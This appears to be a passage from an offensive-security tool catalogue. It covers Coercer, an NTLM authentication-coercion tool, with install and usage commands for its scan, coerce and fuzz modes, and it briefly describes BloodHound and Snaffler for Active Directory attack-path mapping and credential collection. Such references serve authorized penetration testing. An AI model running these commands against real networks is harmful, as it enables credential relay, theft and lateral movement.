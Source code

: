 Features:

Lists open SMB pipes on the remote machine (in modes scan authenticated and fuzz authenticated)
Tries to connect on a list of known SMB pipes on the remote machine (in modes scan unauthenticated and fuzz unauthenticated)
Calls one by one all the vulnerable RPC functions to coerce the server to authenticate on an arbitrary machine.
Random UNC paths generation to avoid caching failed attempts (all modes)
Configurable delay between attempts with --delay
More feature information here.

Install: (pip)

sudo python3 -m pip install coercer
Usage:

# Scan mode (Assess the Remote Procedure Calls listening on a machine)
./Coercer.py scan -t 192.168.1.1 -u 'username' -p 'password' -d test.locl -v

# Coerce mode (Exploit the Remote Procedure Calls on a remote machine to coerce an authentication to ntlmrelay or responder)
./Coercer.py coerce -l 192.168.1.2 -t 192.168.1.1 -u 'username' -p 'password' -d test.locl -v

# Fuzz mode (Fuzz Remote Procedure Calls listening on a machine)
./Coercer.py fuzz -t 192.168.1.1 -u 'username' -p 'password' -d test.locl -v
image

Image used from https://github.com/p0dalirius/Coercer#quick-start

Collection
🔙BloodHound
An application used to visualize active directory environments. A quick way to visualise attack paths and understand victims' active directory properties.

Install: PenTestPartners Walkthrough

Custom Queries: CompassSecurity BloodHoundQueries

image

🔙Snaffler
Snaffler is an advanced credential scanner/collector for Active Directory environments. With a great README.

Snaffler uses a system of "classifiers", each of which examine shares or folders or files or file contents, passing some items downstream to the next classifier, and discarding others. Each classifier uses a set of rules to decide what to do with the items it classifies.

More information about Snaffler rules.
